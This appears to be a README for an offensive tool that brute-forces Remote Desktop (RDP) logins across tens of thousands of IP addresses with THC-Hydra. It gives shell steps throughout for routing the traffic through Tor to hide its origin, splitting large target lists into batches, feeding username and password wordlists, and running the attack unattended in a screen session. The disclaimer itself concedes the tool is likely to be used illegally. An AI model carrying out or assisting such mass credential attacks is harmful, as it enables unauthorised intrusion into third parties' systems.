 # RDP Mass Attack & Monitor

Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)

#### As you know THC-Hydra is not very happy with massive lists when attacking RDP. It either errors out completely or provides false negatives.

![monitor sh](https://user-images.githubusercontent.com/100805450/156768359-9081427b-199a-40ed-a69e-31495a633878.png)

------------

### Prerequisites:
As you might understand from the description it uses thc-hydra (tested on v.9.3)
Use the latest release or compile it yourself:
https://github.com/vanhauser-thc/thc-hydra

1. Tor services are required, remove code in `attack.sh` below to not use proxies.
```bash
  HYDRA_PROXY=socks5://l:p@127.0.0.1:9050
  export HYDRA_PROXY
  printenv | grep HYDRA
  sleep 5
```
2. Create folders for IP source lists and used IP source lists:
```bash
mkdir data/ data-tested/
```
3. Have the IP list split into many files with 4-5 IP addresses each.
Example: 50,000 IP List should become 10,000 files with 5 IPs each.
```bash
# make sure you are inside source folder when running this command
split ip-list.txt -l 5
```
4. If you want to use username list instead one username or you want to use one password, edit `attack.sh` accordingly:
```bash
hydra -L usernames.lst -P "$password"
```
```bash
hydra -l admin -p password
```
```bash
hydra -L usernames.lst -P "$password"
```
------------

### Usage:

```bash
chmod +x attack.sh
```
I advise running the attack inside a screen session to be able to leave it running without accidentally killing it:
```bash
screen -S "attack"
./attack.sh <ip-list-location> <dictionary-location>
# example:
screen -S "attack" ./attack.sh data wordlist/dict.txt
# ^ will use every file in /home/<your user>/data/ folder as IP list and attack it with /home/<your user>/wordlist/dict.txt wordlist
# CTRL + AD to Detach from the screen
```
Script moves the used list file to "data-tested" folder and takes the next one from supplied folder. Did this for easier resume on crash or on stop.

------------

### Monitor.sh Usage:
```bash
chmod +x monitor.sh
watch -n 5 --color ./monitor.sh
```
